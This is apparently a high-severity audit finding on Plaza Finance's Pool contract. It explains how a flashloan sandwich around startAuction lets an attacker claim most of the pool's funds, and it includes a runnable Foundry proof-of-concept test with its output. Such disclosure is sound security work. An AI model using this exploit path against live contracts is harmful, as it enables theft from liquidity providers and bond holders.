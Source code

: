 Crazy Carmine Corgi

High

# Malicious user can sandwich Pool#startAuction with flashloan to completely drain pool

### Summary

When creating an auction, the current supply of the bondToken is used to determine the amount of shares to request from the auction. This is problematic and can easily be exploited by a malicious user. Using a flashloan they can create a large number of bond tokens, start the auction then redeem the bond tokens. This will create an auction with requesting a huge number of coupon tokens. Once the auction completes they can redeem all their coupon, stealing 90% of the entire TVL of the vault.

### Root Cause

[Pool.sol#L545](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L545) utilizes the current supply of the bond token

Pool#create, Pool#startAuction and Pool#redeem can be called atomically

### Internal preconditions

None

### External preconditions

None

### Attack Path

1. In a single transaction: take a flashloan, create a large number of bond tokens, start an auction and redeem bond tokens
2. Wait for auction to complete
3. Claim coupons to drain 90% of TVL

### Impact

90% of TVL can be drained

### POC

Tests for all vulnerabilities can be found [here](https://gist.github.com/IAm0x52/05589415ce45af83aa4f7a5f63afbf45).

Insert the following test into Pool.t.sol

    function testDrainEntirePool() public {
        //test setup
        Token rToken = Token(params.reserveToken);
        Token cToken = Token(params.couponToken);

        Pool.TokenType bondTokenType = Pool.TokenType(0);

        rToken.mint(governance, 1e20);
        vm.prank(governance);
        rToken.approve(address(poolFactory), 1e20);

        string memory salt = "test";
        PoolFactory.PoolParams memory _params = params;
        
        // create pool
        vm.prank(governance);
        Pool _pool = Pool(poolFactory.createPool(_params, 1e20, 1e20, 1e20, "", salt, "", "", false));

        vm.prank(governance);
        _pool.setAuctionPeriod(365 days);

        vm.warp(block.timestamp + 1);

        rToken.mint(user, 1e21);

        vm.startPrank(user);
        rToken.approve(address(_pool), type(uint256).max);

        //sandwich the auction
        uint amount = _pool.create(bondTokenType, 1e21, 0);
        _pool.startAuction();
        _pool.redeem(bondTokenType, amount, 0);

        address auction = _pool.auctions(0);

        //user is owed a huge amount of USDC which will drain the pool when the auction completes
        console.log(_pool.bondToken().getIndexedUserAmount(user, _pool.bondToken().balanceOf(user), 1));
    }

    Output:
    [PASS] testDrainEntirePool() (gas: 3995093)
    Logs:
        1500000000000000000000000000000000000

We see that the amount of rewards for the attacker is most of the TVL of the contract, draining all leverage and bond holders.

### Mitigation

N/A